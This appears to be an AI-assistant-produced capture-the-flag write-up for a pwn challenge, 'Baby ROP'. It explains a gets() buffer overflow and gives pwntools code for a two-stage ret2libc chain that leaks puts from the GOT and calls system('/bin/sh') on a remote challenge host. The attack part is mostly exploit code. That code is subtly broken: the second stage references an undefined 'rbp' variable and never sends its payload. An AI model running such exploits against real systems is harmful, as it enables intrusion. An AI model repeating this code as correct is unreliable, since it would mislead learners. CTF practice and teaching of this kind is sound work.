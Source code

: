 You're absolutely right! Here's the writeup with the original photos preserved:

## Challenge: Baby ROP
**Type:** Pwn/Binary Exploitation  
**Difficulty:** Beginner  
**Environment:** Ubuntu 20.04

### Initial Analysis
We're given a binary `pwn_baby_rop` that prompts for input. Basic interaction shows no obvious functionality, so we analyze it with Ghidra.

### Vulnerability Discovery
We see that for getting the input the unsafe gets functions is used:
![alt text](image.png)

Seeing that it means that we can craft a ret2libc attack.

### Exploitation Strategy: Two-Stage ret2libc

To do that, first we would need to leak an address from libc. We will do that for puts by getting the puts got address and the puts plt address.
After doing that we will simply abuse the buffer overflow vulnerability by leaking the puts adress in libc.
Also, after calling leaking the puts address we will return to the main function so we can be asked for input again, now knowing an address from libc.

The first part of the exploit will look like this:
```python
from pwn import *
env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
#io = process("./pwn_baby_rop", env=env)
io = remote("34.159.211.30", 32627)
io.recvuntil("black magic.\n")
#gdb.attach(io)

# 1st stage
pop_rdi = 0x00401663
puts_got = 0x404018
puts = 0x401060
main = 0x40145C
payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)
io.sendline(payload)
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("puts: " + hex(puts_addr))
```

In the second stage we will need to first find the libc version so we could know the offsets. To do that we can search on libc database website and find:
![alt text](image-1.png)

Now, as we know the offsets we can first find the libc base addr, then find the system call and also the /bin/sh string address.

The second part of the exploit will look like:
```python
# 2nd stage
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset =  0x1b75aa
libc_base = puts_addr - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
log.info("libc_base: " + hex(libc_base))
log.info("system: " + hex(system))
log.info("bin_sh: " + hex(bin_sh))
simple_ret = 0x0040101a
payload = b"A" * 256
payload += p64(rbp)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(simple_ret)
payload += p64(system)
```

And that is how the system function will be called with /bin/sh arg and we pwn the binary.

### Key Learning Points:
1. **Buffer Overflow Basics**: Using `gets()` creates predictable overflow conditions
2. **ret2libc Technique**: Bypassing NX bit by reusing existing libc functions  
3. **Address Leaking**: Using GOT/PLT to leak randomized addresses
4. **ROP Chains**: Chaining gadgets to control program execution
5. **Libc Database**: Using leaked addresses to identify exact libc version

This is a classic introduction to modern binary exploitation techniques!